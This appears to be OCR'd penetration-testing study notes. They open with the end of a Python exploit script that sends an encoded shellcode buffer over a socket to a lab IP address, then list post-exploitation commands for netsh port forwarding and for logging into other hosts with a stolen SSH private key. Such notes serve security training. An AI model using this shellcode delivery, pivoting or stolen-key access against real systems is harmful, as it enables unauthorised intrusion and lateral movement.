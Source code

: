 24 buf += b"\x82\x62\x1e\xa9\xea\xa2\x50\x95\x41\x8b\x5c\x18"
25 buf += b"\x9b\xcc\x5b\xc3\xee\x26\x98\x7e\xe9\xfd\xe2\xa4"
26 buf += b"\x7c\xe1\x45\x2e\x26\xc5\x74\xe3\xb1\x8e\x7b\x48"
27 buf += b"\xb5\xc8\x9f\x4f\x1a\x63\x9b\xc4\x9d\xa3\x2d\x9e"
28 buf += b"\xb9\x67\x75\x44\xa3\x3e\xd3\x2b\xdc\x20\xbb\x94"
29 buf += b"\x78\x2b\x2e\xc2\xfd\xd4\xb0\xeb\xa3\x42\x7c\x26"
30 buf += b"\x5c\x92\xea\x31\x2f\xa0\xb5\xe9\xa7\x88\x3e\x34"
31 buf += b"\x3f\x99\x29\xc7\xef\x21\x39\x39\x10\x51\x13\xfe"
32 buf += b"\x44\x01\x0b\xd7\xe4\xca\xcb\xd8\x30\x66\xc6\x4e"
33 buf += b"\xb1\x44\xcd\x41\xad\xaa\xf1\x7a\x38\x23\x17\xd4"
34 buf += b"\x14\x63\x88\x95\xc4\xc3\x78\x7e\x0f\xcc\xa7\x9e"
35 buf += b"\x30\x07\xc0\x35\xdf\xf1\xb8\xa1\x46\x58\x32\x53"
36 buf += b"\x86\x77\x3e\x53\x0c\x7d\xbe\x1a\xe5\xf4\xac\x4b"
37 buf += b"\x92\xf6\x2c\x8c\x37\xf6\x46\x88\x91\xa1\xfe\x92"
38 buf += b"\xc4\x85\xa0\x6d\x23\x96\xa7\x92\xb2\xae\xdc\xa5"
39 buf += b"\x20\x8e\x8a\xc9\xa4\x0e\x4b\x9c\xae\x0e\x23\x78"
40 buf += b"\x8b\x5d\x56\x87\x06\xf2\xcb\x12\xa9\xa2\xb8\xb5"
41 buf += b"\xc1\x48\xe6\xf2\x4d\xb3\xcd\x80\x8a\x4b\x93\xae"
42 buf += b"\x32\x23\x6b\xef\xc2\xb3\x01\xef\x92\xdb\xde\xc0"
43 buf += b"\x1d\x2b\x1e\xcb\x75\x23\x95\x9a\x34\xd2\xaa\xb6"
44 buf += b"\x99\x4a\xaa\x35\x02\x7d\xd1\x36\xb5\x7e\x26\x5f"
45 buf += b"\xd2\x7f\x26\x5f\xe4\xbc\xf0\x66\x92\x83\xc0\xdc"
46 buf += b"\xad\xb6\x65\x74\x24\xb8\x3a\x86\x6d"
47
48 s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
49 s.connect(("192.168.28.179",9999))
50 print s.recv(1024)
   s.send(buf)
52 print s.recv(1024)
53
54 s.close()


# Post Exploitation
# Windows Targets
```
netsh interface portproxy add v4tov4 listenport=<LocalPort> listenaddress=<LocalIP> connectport=<TargetPort> connectaddress=<TargetIP> protocol=tcp
netsh interface portproxy show all
netsh interface portproxy delete v4tov4 listenport=<LocalPort>
netsh interface portproxy reset
```
# SSH Keys
```
SSH keys are asymetric(public/private) key pairs that can be used to authenticate a user to a system in combination with or to replace the use of a password
If you are able to find a users private ssh key it can potentially be used to gain access to other systems
Using Stolen SSH Keys
Bring private key to your own box
On your box:
chmod 600 /home/student/stolenkey
ssh -i /home/student/stolenkey jane@1.2.3.4  (only with stolen key)
ssh as the user who is the original key owner
```
# configuration for paths
```
Configuration File Method (~/.ssh/ssh_config)
HostName *
```